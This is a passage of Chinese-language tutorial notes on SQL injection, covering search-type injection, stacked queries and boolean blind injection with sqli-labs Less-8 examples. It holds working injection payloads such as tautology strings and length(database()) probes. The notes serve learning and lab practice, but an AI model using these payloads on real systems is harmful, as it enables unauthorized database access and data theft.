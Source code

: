 > SELECT	列名	FROM	表名	WHERE	数字型注入点='值'
>



##### 搜索型

def:

> SELECT * FROM表名WHERE被搜索的字段名like '%关键字%'[——通配符](#sql通配符)

**example:**

```sql
select id from member where username like '%$name%'
```

用户输入name值

注入`'and 1=1 and '%'='`就变成

```sql 
select id from member where username like '%$name'and 1=1 and '%'='%'
```



####==堆叠注入（堆查询注入）==

`;`多命令执行




####==盲注==
#####布尔盲注

布尔型：页面只返回True和False两种类型页面。利用页面返回不同，逐个猜解数据

> 判断是否注入成功
>
> 1 and 1=2
>
> 1' and '1'='2
>
> 当输入`1'and '1'='2`显示为假时，则说明注入成功；

如sqli-labs-Less8

1. payload=

```sql
?id=1'and length(database())=8 -- 
```

显示true,因此database()长度为8

> 也可以通过判断大小猜解长度
>
> ?id=1'and (length(database()))<10-- 
>
> 当前数据库database（）的长度小与于10，返回True页面，否则False页面
>
> 这样按中分法试探一下，或者随便乱试可以出来一个大致范围
